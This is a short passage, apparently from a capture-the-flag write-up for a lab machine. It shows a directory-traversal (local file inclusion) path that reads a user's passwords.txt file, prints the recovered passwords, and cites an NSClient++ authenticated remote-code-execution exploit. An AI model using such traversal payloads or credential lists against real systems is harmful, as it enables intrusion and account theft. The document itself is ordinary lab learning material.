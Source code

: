 ![screenshot](/assets/images/servmon7.png)

LFI on Windows file system

```sh
/../../../../../../../../../../../../users/nathan/desktop/passwords.txt
```

```text
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

![screenshot](/assets/images/servmon8.png)

### NSClient++
[NSClient++ 0.5.2.35 - Authenticated Remote Code Execution](https://www.exploit-db.com/exploits/48360)

- Need credentials
